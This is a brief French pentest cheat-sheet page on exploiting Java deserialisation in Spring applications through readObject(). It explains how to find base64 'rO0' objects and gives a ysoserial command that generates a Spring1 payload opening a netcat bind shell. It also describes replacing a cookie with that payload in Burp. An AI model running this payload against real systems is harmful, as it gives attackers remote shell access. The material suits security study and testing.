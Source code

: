 ```yaml
---
description: unserialisation
---
```


# Spring - ObjectInputStream

Le problème vient du fait que l'application utilise la méthode readObject() sur des donnée provenant de l'utilisateur.

Il faudra trouver l'objet encodé en base64 (reperable par le bout de string "rO0" qui est une version encodé de "\xac\xed\x00" )&#x20;

Une foix l'objet trouvé on le remplacera via notre playload encodé en base64.

Outils : [ysoserial  ](https://github.com/frohoff/ysoserial)ou  [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller) (extension burp)&#x20;

Utilisation de ysoserial :  &#x20;

```bash
java -jar ysoserial-0.0.4-all.jar Spring1 '/usr/bin/nc -l -p 9999 -e /bin/sh' | base64 -w 0
```

Dans l'exemple ci-dessous nous remplaçon le cookie qui etait l'objet passant par readObject() via Burp.&#x20;

<figure><img src="../../.gitbook/assets/burp-Spring-ObjectInputStream.JPG" alt=""><figcaption></figcaption></figure>



